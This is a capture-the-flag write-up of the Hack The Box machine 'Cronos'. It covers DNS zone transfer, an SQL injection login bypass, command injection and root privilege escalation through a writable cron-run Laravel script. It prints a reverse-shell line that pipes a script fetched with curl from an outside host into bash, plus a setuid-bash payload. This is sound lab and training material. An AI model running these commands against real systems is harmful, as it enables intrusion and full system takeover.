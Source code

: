 # Cronos

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:42 EDT
Nmap scan report for 10.129.227.211
Host is up (0.0083s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

### DNS

I poked DNS a little bit before going to HTTP, to see if we can find out any hidden domains or something. Based on standard HTB domains, I guessed that it was `cronos.htb` and it worked.

```
$ dig axfr @10.129.227.211 cronos.htb

; <<>> DiG 9.18.8-1-Debian <<>> axfr @10.129.227.211 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 3 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sat May 06 14:44:15 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### Cronos.htb

Port 80 reveals the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

After adding `cronos.htb` to the `/etc/hosts` file, this page changes:

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

Checking the page source reveals this is a Laravel application.

<figure><img src="../../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>

### SQLI Login Bypass -> RCE

Earlier, we also found an `admin.cronos.htb` through DNS. When visited, it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to some kind of injection. I ran `sqlmap` on the login request and found that it might be vulnerable to time-based SQL injection. That also means we can bypass this login page by doing basic injection. When we login, we see that it is a really basic application:

<figure><img src="../../../.gitbook/assets/image (3089).png" alt=""><figcaption></figcaption></figure>

This is obviously vulnerable to command injection, which we can find quite easily:

<figure><img src="../../../.gitbook/assets/image (1961).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell using `curl 10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Creds

We can find a `config.php` file containing some credentials in the directory that we spawn in.

```php
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php  welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

We can keep this for now since we don't know if it'll come into play later. There's one user present in this machine:

```
www-data@cronos:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 May 10  2022 .
drwxr-xr-x 23 root   root   4096 May 10  2022 ..
drwxr-xr-x  4 noulis noulis 4096 May 10  2022 noulis
```

We can easily grab the user flag from this.&#x20;

### Laravel Cronjob

Running LinPEAS reveals this:

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

The `root` user was running a PHP file called `artisan` that we had write access to. So we just need to append some commands to the top. We can edit it to include this line:

```php
exec("chmod u+s /bin/bash");
```

Wait for a little bit, and the script should execute. We can then easily get a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

